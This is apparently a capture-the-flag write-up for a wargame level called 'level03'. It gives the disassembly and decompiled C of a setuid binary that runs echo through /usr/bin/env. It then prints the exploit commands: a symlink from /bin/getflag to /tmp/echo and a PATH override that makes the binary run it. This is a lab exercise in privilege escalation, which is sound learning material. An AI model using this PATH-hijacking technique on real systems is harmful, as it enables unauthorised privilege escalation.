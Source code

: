 Run the executable in the machine
output "exploit me"
gdb level03
disassemble main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
---Type <return> to continue, or q <return> to quit---
   0x08048504 <+96>:    ret    


   https://dogbolt.org/

   int main(int argc,char **argv,char **envp){
    __gid_t __rgid;
    __uid_t __ruid;
    int iVar1;
    gid_t gid;
    uid_t uid;
    
    __rgid = getegid(); // returns the effective group ID of the calling process
    __ruid = geteuid(); // returns the effective user ID of the calling process.
    setresgid(__rgid,__rgid,__rgid); 
    setresuid(__ruid,__ruid,__ruid); // sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.
    iVar1 = system("/usr/bin/env echo Exploit me"); //calls the echo builtin located in usr/bin/env
    return iVar1;
}

> Env guessed where echo is based on the PATH env variable
> echo $PATH
> If we change the PATH env variable, we can control whats executed
> Switch the echo builtin with ./getflag that we need to execute
> easiest way to copy a file and change is to create a symbolic link  and then we change our environment variable PATH so that it has /tmp in it. :

ln -s /bin/getflag /tmp/echo
export PATH=/tmp
./level03
*getthetoken*
export PATH=/bin
